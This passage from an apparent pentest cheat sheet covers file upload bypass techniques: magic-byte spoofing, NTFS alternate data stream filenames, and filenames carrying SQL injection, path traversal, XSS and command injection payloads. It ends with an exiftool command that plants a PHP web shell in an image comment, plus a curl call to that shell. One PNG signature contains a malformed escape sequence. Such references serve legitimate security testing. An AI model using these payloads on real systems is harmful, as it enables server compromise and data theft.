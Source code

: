     * Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
    * Set the Content-Type twice: once for unallowed type and once for allowed.
- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
    * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
        * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
        * JPG: `\xff\xd8\xff`
        * GIF: `GIF87a` OR `GIF8;`
    * Shell can also be added in the metadata
- Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")

### Filename Vulnerabilities

Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.

- Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
- LFI/Path Traversal Payloads:  e.g. `image.png../../../../../../../etc/passwd` 
- XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
- File Traversal e.g. `../../../tmp/lol.png`
- Command Injection e.g. `; sleep 10;`

Also you upload:

- HTML/SVG files to trigger an XSS
- EICAR file to check the presence of an antivirus

### Picture Compression

Create valid pictures hosting PHP code. Upload the picture and use a **Local File Inclusion** to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.
    - [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    - [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    - [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php


### Picture Metadata

Create a custom picture and insert exif tag with `exiftool`. A list of multiple exif tags can be found at [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="Resources" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```
